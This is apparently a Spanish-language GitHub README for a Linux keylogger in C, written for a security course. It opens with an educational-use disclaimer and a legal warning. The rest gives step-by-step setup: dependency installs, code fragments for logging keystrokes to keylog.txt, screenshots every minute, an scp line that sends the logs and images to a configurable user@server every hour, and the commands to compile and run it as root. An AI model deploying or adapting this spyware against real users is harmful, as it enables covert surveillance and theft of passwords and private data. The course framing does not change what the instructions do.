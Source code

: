 # Keylogger + Caps 👁

Keylogger con función de capturas de pantalla y envio de datos a un servidor configurable **LINUX**.

# ⚠️ ADVERTENCIA

Este proyecto fue desarrollado **exclusivamente con fines educacionales** como parte de un curso de seguridad informática. **No debe ser utilizado en ningún otro contexto ni con intenciones maliciosas.**

**Aviso Legal:**

El uso de keyloggers esta estrictamente prohibido en diversos países si no se cuenta con el consentimiento explícito del usuario final. El monitoreo o captura de las actividades de un usuario sin su autorización es una violación grave de la privacidad y puede conllevar sanciones legales.

Este código **no debe ser utilizado fuera del entorno educacional ni aplicado a sistemas en producción o dispositivos ajenos sin autorización y consentimiento explicito.**
**El autor no se hace responsable por el uso indebido de este código.** Cualquier intento de utilizar este proyecto para propósitos distintos a los estipulados en este repositorio es **bajo responsabilidad del usuario.**

# Requisitos:

_Nota: La distribución usada y la de este tutorial es para sistemas basados en Debian._
_El código del ejemplo fue probado en un sistema con Parrot por lo que puede variar dependiendo del sistema utilizado._

Es necesario contar con lo siguiente para poder ejecutar y/o compilar el programa:

- **Compilador de C (en este caso gcc).**
- **Libreria scrot (para captura de pantalla).**

```bash
  sudo apt-get install scrot
```

- **Libreria openssh-client (para el envio de datos a servidor local).**

```bash
  sudo apt-get install openssh-client
```

- **Librerias evdev (para trabajar con evdev).**

```bash
  sudo apt-get install libevdev-dev
```

**Nota:** Además, se utilizaron otras librerias que estan preinstaladas en entornos linux, en caso no presentar errores de librerias, aqui se encuentra un listado con todas las que se utilizaron.

```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <linux/input.h>
  #include <linux/input-event-codes.h>
  #include <pthread.h>
  #include <time.h>
```

# Instrucciones de uso:

Clonar este repositorio con ayuda del comando:

```c
  git clone https://github.com/NightMare070/keylogger_linux
```

Dentro de keylogger.c configurar las rutas de acuerdo a donde se requieran:

```c
  //Por defecto se crean en el mismo directorio donde
  //se encuentra el ejecutable

  // Ruta del archivo que registra las teclas
  log_file = fopen("keylog.txt", "a");
  //Ruta de la carpeta que contiene las imagenes
  snprintf(filename, sizeof(filename), "screenshot_%04d-%02d-%02d_%02d-%02d-%02d.png",
```

Dentro de keylogger.c en la función **_transfer_files_** modificar la variable de acuerdo a tu servidor:

```c
  //Variable de ruta
  snprintf(command, sizeof(command), "scp keylog.txt screenshot_*.png user@server:/path/to/destination/");
```

Una vez teniendo el archivo **keylogger.c** configurado ejecutar el siguiente comando para compilarlo:

```bash
  gcc -o keylogger keylogger.c -pthread
```

y despues ejecutar de la siguiente manera:

```bash
  sudo ./keylogger
```

Y automaticamente despues de ejecutar, se  creara un TXT en la ruta del ejecutable **keylogger** que empezará a registrar las teclas que vamos pulsando además de tomar capturas de pantalla **cada minuto** y enviarlas a un servidor cada hora.

# Supuestos del programa:

## Sistema Operativo:

1. El programa está diseñado para ejecutarse en una distribución de Linux.

## Permisos de Usuario:

1. Se asume que el programa se ejecuta con los permisos necesarios para acceder a los dispositivos de entrada del teclado **(/dev/input/event3)** y que tiene permisos de escritura en el directorio donde se almacenarán los registros y capturas de pantalla.

## Dependencias Instaladas:

1. **libssh2**  para manejar las conexiones SSH.

2. **scrot** para tomar capturas de pantalla.

3. **pthread** para manejar la concurrencia (aunque pthread.h está preinstalado en la mayoría de los sistemas Linux, es necesario asegurarse de que esté disponible).

## Configuración SSH:

1. Se asume que las credenciales de acceso SSH al servidor remoto están configuradas correctamente, ya sea mediante autenticación por clave o usuario/contraseña, y que el servidor remoto está accesible.

## Conexión a Internet:

1. Se asume que la máquina en la que se ejecuta el programa tiene conexión a Internet para poder realizar el envío de los archivos al servidor remoto.

## Directorio de Trabajo:

1. Se asume que el directorio donde se almacenan las capturas de pantalla y los registros de teclas tiene suficiente espacio en disco.

# Casos de uso:

El programa funciona en forma de **3 hilos**, **1 para registrar las teclas**, **1 para tomar las screenshots** y **otro para enviar la información al servidor.** Por lo que técnicamente funcionan de forma independiente y no dependen uno del otro. Sin embargo si no se encuentra el TXT (en un caso hipotético), el programa no tendrá nada para enviar al servidor y lo mismo con las imagenes.

## Hilo principal (main):

| Paso | Actor | Sistema                                    | Si falla                           |
| ---- | ----- | ------------------------------------------ | ---------------------------------- |
| 1    |       | Crear hilos de ejecución para cada tarea   |
| 2    |       | Se crea el hilo del keylogger              | No se registrarán las teclas       |
| 3    |       | Se crea el hilo del tomador de screenshots | No se tomarán screenshots          |
| 4    |       | Se crea el hilo del envio a servidor       | No se enviarán datos a el servidor |

Entonces podemos dividir los casos de uso en 3 partes.

Además, podemos agregar un caso extra por el monitorio constante tanto de teclas, como de capturas de pantalla.

1. Registro de Teclas:

- **Descripción:** El programa captura las pulsaciones de teclas del usuario en tiempo real y las almacena en un archivo **keylog.txt**.
- **Caso de Uso:** Registrar la actividad del teclado para su posterior análisis.

2. Captura de Pantallas:

- **Descripción:** Cada minuto, el programa toma una captura de pantalla y la guarda con un nombre que incluye la fecha y hora de la captura.
- **Caso de Uso:** Monitorear la actividad visual de la pantalla para revisar lo que se muestra en intervalos regulares.

3. Envío de Datos al Servidor Remoto:

- **Descripción:** Cada hora, el programa empaqueta los archivos **keylog.txt** y las capturas de pantalla en un archivo comprimido y lo envía a un servidor remoto usando SSH.
- **Caso de Uso:** Transferir los datos recopilados a un servidor remoto para su almacenamiento o análisis.

4. Monitoreo Concurrente:

- **Descripción:** El programa ejecuta las tareas de captura de teclas, captura de pantalla y envío de datos de manera concurrente usando hilos **(pthread)**.
- **Caso de Uso:** Permitir que todas las funcionalidades se ejecuten simultáneamente sin interferencias.